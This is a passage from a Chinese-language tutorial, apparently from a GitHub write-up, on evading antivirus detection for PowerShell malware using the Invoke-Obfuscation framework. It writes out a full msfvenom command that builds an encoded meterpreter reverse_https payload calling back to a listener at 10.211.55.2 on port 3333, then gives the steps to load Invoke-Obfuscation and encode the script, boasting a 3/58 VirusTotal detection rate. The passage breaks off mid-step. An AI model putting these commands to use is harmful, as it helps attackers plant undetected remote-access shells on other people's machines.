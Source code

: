 
## 3.3 法3：Invoke-Obfuscation对ps1免杀(VT免杀率3/58)

powershell的免杀方法有很多，对代码进行编码是最常见的一种，这里介绍一个专门用来对powershell进行编码免杀的框架Invoke-Obfuscation，这也是著名的APT32组织海莲花常用的一个工具。

Invoke-Obfuscation主要是对ps1脚本进行免杀，所以这里还是需要现有一个ps的payload，我还是用法1的msf生成的payload。

用msfvenom生成powershell马，注意这里是`-f psh`。

```
msfvenom -p  windows/x64/meterpreter/reverse_https -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=10.211.55.2 lport=3333 -f psh -o shell.ps1
```

下载`Invoke-Obfuscation`：`Git clone https://github.com/danielbohannon/Invoke-Obfuscation`

进入Invoke-Obfuscation目录，在powershell中执行`Import-Module .\Invoke-Obfuscation.psd1; Invoke-Obfuscation`

![7f6d8e366d008c18687d01290d9b24be](images/2020.04-bypass-06/12.png)

然后执行`set scriptpath  c:\test\shell.ps1`  指定待处理的Ps1文件，或者`set  scriptblock  'echo xss' `指定待处理的ps代码

然后输入`encoding`，再选择编码方式，比如1
